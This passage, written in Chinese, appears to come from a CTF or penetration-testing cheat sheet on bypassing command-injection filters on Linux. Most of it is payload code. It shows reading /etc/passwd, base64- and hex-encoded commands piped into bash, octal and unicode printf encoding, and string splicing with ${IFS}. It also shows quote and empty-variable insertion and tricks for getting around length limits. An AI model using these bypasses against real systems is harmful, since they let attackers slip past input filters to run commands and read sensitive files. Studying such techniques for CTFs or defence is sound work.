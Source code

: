 ```````
# 查看一个文件
paste shell.php /etc/passwd
# 查看多个文件
```
### diff
diff 命令是一个在 Linux 系统中用于比较文本文件之间差异的命令。它可以帮助用户查找和标识文件之间的修改、添加或删除行等差异。
```shell
diff ./shell.php /etc/passwd
```
### od
od命令主要是用于分析和查看二进制文件的内容，对于文本文件，它主要用于查看文件的ASCII码。
```shell
od -a shell.php
```
### curl
```shell
curl file:///root/shell.php
```
### base64
```shell
echo YWJjZGU=|base64 -d // 打印出来 abcde
echo Y2F0IC9yb290L3NoZWxsLnBocAo=|base64 -d|bash #cat /root/shell.php
echo Y2F0IC9ob21lL3QvZmxhZy5waHA=|base64 -d|sh #cat /root/shell.php
```
### hex编码
```bash
echo 636174202f726f6f742f7368656c6c2e7068700a | xxd -r -p |bash
# cat /root/shell.php
```
### unicode编码
```bash
printf "\154\163"		# ls
printf "\u0063\u0061\u0074\u0020\u002f\u0072\u006f\u006f\u0074\u002f\u0073\u0068\u0065\u006c\u006c\u002e\u0070\u0068\u0070"
# cat /root/shell.php
```
### 拼接
将字符串拼接在一起绕过
```bash
[root@localhost ~]# a=l;b=s;$a$b
[root@localhost ~]# a=cat;b=/root/shell.php;$a<$b
[root@localhost ~]# a=ca;b=t${IFS}/root/shell.p;c=hp;d=$a$b$c;$d
```
### 未定义的变量
未定义的变量就是不存在，可以随意拼接来绕过
```bash
[root@localhost ~]# cat$x shell.php
```
### 连接符
```bash
[root@localhost ~]# cat sh'e'll.php
[root@localhost ~]# c'a't$x sh'e'll.php
```
### 长度限制绕过
通过命令行重定向写入命令，接着通过ls按时间排序把命令写入文件，最后执行直接在Linux终端下执行的话，创建文件需要在重定向符号之前添加命令
这里可以使用一些诸如w,[之类的短命令，(使用ls /usr/bin/?查看) 如果不添加命令，需要Ctrl+D才能结束，这样就等于标准输入流的重定向
而在php中 , 使用shell_exec等执行系统命令的函数的时候 , 是不存在标准输入流的，所以可以直接创建文件
#### 重定向写入
```bash
[root@localhost ~]# ls > a
[root@localhost ~]# cat a
```
#### 命令换行
```bash
[root@localhost ~]# cat \
> shell\
> .php
```````